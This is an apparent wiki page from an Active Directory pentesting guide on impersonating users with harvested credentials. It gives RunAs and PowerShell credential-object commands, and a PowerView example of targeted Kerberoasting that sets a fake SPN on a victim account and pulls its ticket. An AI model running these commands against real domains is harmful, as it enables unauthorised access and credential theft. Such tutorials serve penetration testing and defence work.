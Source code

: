 # Impersonation

When credentials are found \(through [dumping](dumping/) or [cracking](cracking.md) for instance\), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* **LM or NT password hash**: [pass-the-hash](../abusing-lm-and-ntlm/pass-the-hash.md)
* **RC4 Kerberos key \(i.e. NT hash\)**: [overpass-the-hash](../abusing-kerberos/overpass-the-hash.md)
* **non-RC4 Kerberos key \(i.e. DES or AES\)**: [pass-the-key](../abusing-kerberos/overpass-the-hash.md) \(alias for overpass-the-hash\)
* **Kerberos ticket**: [pass-the-ticket](../abusing-kerberos/pass-the-ticket.md)
* **plaintext password**: the techniques listed below

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="Powershell" %}
In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$c = Get-Credential

# Credential object creation (not prompted)
$SecPassword = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $SecPassword)

# Usage
Start-Process Notepad.exe -Credential $credential
```
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../abusing-aces/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$SecPassword = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $SecPassword)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}

